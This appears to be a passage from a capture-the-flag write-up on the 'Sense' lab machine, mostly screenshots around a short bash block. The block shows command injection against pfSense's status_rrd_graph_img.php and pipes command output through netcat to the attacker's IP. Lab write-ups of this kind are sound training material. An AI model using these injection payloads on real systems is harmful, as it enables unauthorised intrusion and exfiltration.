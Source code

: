 
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I am going to perform the exploit with a custom script, so I do some reversing to understand how the exploit works. I find the **Reverse Shell** command that tries to inject, as well as the vulnerable **URL**, and when I access from my browser I check that the path exists. The first thing I verify is that the system is exploitable, since with `sleep` I can manipulate the server response time, but with other **Linux** commands I don't get the expected response and I can't check the connectivity with the victim machine, although some commands do work, <ins>I don't understand what is happening</ins>.

```bash
cat pfsense_exploit.py
# command = """....
# exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

# https://10.10.10.60/status_rrd_graph_img.php?database=queues;sleep%205
# https://10.10.10.60/status_rrd_graph_img.php?database=queues;whoami

tcpdump -i tun0 icmp -n
# https://10.10.10.60/status_rrd_graph_img.php?database=queues;ping%20-c%201%2010.10.14.22
# :(

nc -nlvp 443
# https://10.10.10.60/status_rrd_graph_img.php?database=queues;whoami|nc%2010.10.14.22%20443
# :)
```

<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sense_writeup/Sense_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
